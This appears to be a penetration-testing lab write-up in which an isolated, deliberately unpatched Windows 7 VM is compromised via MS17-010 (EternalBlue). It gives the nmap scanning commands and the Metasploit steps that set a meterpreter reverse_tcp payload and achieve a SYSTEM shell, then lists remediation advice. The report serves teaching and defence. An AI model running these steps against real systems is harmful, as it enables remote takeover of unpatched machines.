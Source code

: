 **Vulnerability Assessment Report — Windows 7 Exploitation Lab**

**Table of Contents**

1. **Executive Summary**
2. **Introduction**
3. **Scope & Methodology**
4. **Findings**
    - 4.1 Host Discovery
    - 4.2 Service Enumeration
    - 4.3 Vulnerability Scanning
    - 4.4 Exploitation
    - 4.5 post-Exploitation
5. **Remediation Recommendations**
6. **Conclusion**
7. **Appendix: Lab Configuration & Updated Tool References**

**1\. Executive Summary**

This report details a controlled lab exploitation of a **Windows 7 Professional SP1 x64** system using a **Kali Linux 2025.2** attacker machine. A critical **MS17-010 (EternalBlue)** vulnerability was identified and exploited, demonstrating how legacy systems with SMBv1 enabled remain exposed to **remote code execution (RCE)** threats.

The lab exercise validated that **unpatched end-of-life operating systems** can be compromised easily using **modern open-source security frameworks**, highlighting the importance of **patch management, secure configurations, and network segmentation**.

**2\. Introduction**

**Objective:**

- Identify vulnerabilities on a Windows 7 target.
- Exploit **MS17-010** to achieve SYSTEM-level access.
- Validate post-exploitation capabilities using up-to-date tools and techniques.

**Lab Environment:**

- **Attacker:** Kali Linux 2025.2 — IP: 192.168.20.128
- **Target:** Windows 7 Professional SP1 x64 — IP: 192.168.20.130
- **Network:** Isolated NAT network (192.168.20.0/24)

**3\. Scope & Methodology**

**Scope:**

- Single target: Windows 7 (192.168.20.130)
- Focus: **SMBv1 service exploitation**
- Tools: **Nmap**, **Metasploit**, with references to **BloodHound** for possible AD enumeration in extended scenarios.

**Methodology:**

| Step | Tool/Command | Purpose |
| --- | --- | --- |
| Host Discovery | nmap -sn 192.168.20.0/24 | Identify live hosts |
| Service Enumeration | nmap -sV 192.168.20.130 | Detect open ports & services |
| Vulnerability Scan | nmap --script vuln 192.168.20.130 | Identify exploitable vulnerabilities |
| Exploitation | msfconsole | Exploit MS17-010 |
| Post-Exploitation | meterpreter | Validate privileges & gather system info |

**4\. Findings**

**4.1 Host Discovery**

nmap -sn 192.168.20.0/24
![Host Discovery](docs/images/Host Discovery.JPG)
**Result:**

- 5 active hosts detected
- Windows 7 confirmed at **192.168.20.130**

**4.2 Service Enumeration**

nmap -sV 192.168.20.130
![Service Enumeration](docs/images/Service Enumeration.JPG)
**Open Ports:**

- 135/tcp — MS RPC
- 139/tcp — NetBIOS
- 445/tcp — SMB (vulnerable to EternalBlue)

**OS Fingerprint:** Windows 7 Professional SP1 x64

**4.3 Vulnerability Scanning**

nmap --script vuln 192.168.20.130
![Vulnerability Scanning](docs/images/Vulnerability Scanning.JPG)
**Critical Finding:**

- **MS17-010 (CVE-2017-0143)**
  - SMBv1 enabled
  - **High Risk:** Remote Code Execution confirmed exploitable

**4.4 Exploitation**

**Tool:** Metasploit Framework (2025.2, updated)

msfconsole

**Module Used:**

use exploit/windows/smb/ms17_010_eternalblue

**Steps:**

1. set RHOST 192.168.20.130
2. set PAYLOAD windows/x64/meterpreter/reverse_tcp
3. exploit
![Exploitation](docs/images/Exploitation.JPG)
**Result:**

- Successful **reverse shell**
- Meterpreter session established

**4.5 Post-Exploitation**

sysinfo

- OS: Windows 7 SP1 x64

getuid

- User: **NT AUTHORITY\\SYSTEM**

Full **SYSTEM-level control** achieved.
![Post-Exploitation](docs/images/Post-Exploitation.JPG)

**5\. Remediation Recommendations**

| Risk | Recommended Action |
| --- | --- |
| Critical: MS17-010 | Apply patch **KB4012212** immediately. |
| SMBv1 Exposure | Disable SMBv1 on all Windows systems. |
| Legacy OS | Upgrade to a supported OS (Windows 10/11). |
| Network Segmentation | Restrict SMB traffic; isolate legacy systems. |
| Detection & Response | Deploy modern EDR/XDR solutions to monitor SMB and lateral movement. |
| Penetration Testing Environment | Regularly update **Kali Linux** and its tools via official repositories: |

**6\. Conclusion**

This assessment confirms that **unpatched Windows 7 systems remain dangerously exploitable** by EternalBlue. The attack was trivial with modern tools like **Metasploit**, demonstrating the urgency of migrating away from unsupported systems and disabling obsolete protocols like **SMBv1**.

Regular vulnerability scans, prompt patching, and continuous monitoring are critical for defending against well-known exploits.

**7\. Appendix: Lab Configuration & Updated Tool References**

**Virtualization:**

- Hypervisor: VMware Workstation Pro
- Network: NAT, fully isolated

**Attacker VM:**

- Kali Linux 2025.2
- Tools verified:
  - **Nmap** (nmap --version)
  - **Metasploit Framework** (msfconsole --version)
  - **BloodHound CE** (available for Active Directory mapping if required)

**Target VM:**

- Windows 7 Professional SP1 x64
- SMBv1 enabled by default
- No security patches installed (intentionally vulnerable)

**References**

1. Microsoft Security Bulletin. (2017). \*MS17-010: Security Update for Microsoft Windows SMB Server (4013389)\*.  
    <https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010>
2. MITRE Corporation. (2017). \*CVE-2017-0143: Windows SMB Remote Code Execution Vulnerability\*.  
    <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143>
3. Nmap Project. (2025). _Nmap Network Scanning: Official Documentation_.  
    <https://nmap.org/book/man.html>
4. Rapid7. (2025). _Metasploit Framework Documentation: EternalBlue Exploit Module_.  
    <https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/>
5. Microsoft. (2020). _How to detect, enable, and disable SMBv1, SMBv2, and SMBv3 in Windows_.  
    <https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3>
6. US-CERT. (2017). \*Alert (TA17-132A): SMB Security Best Practices\*. Cybersecurity & Infrastructure Security Agency.  
    <https://www.cisa.gov/news-events/alerts/2017/05/12/alert-ta17-132a>
7. National Institute of Standards and Technology (NIST). \*National Vulnerability Database (NVD) - CVE-2017-0143\*.  
    <https://nvd.nist.gov/vuln/detail/CVE-2017-0143>
8. SANS Institute. (2024). _Windows Security Hardening Checklist_.  
    <https://www.sans.org/posters/windows-security-hardening-cheat-sheet/>

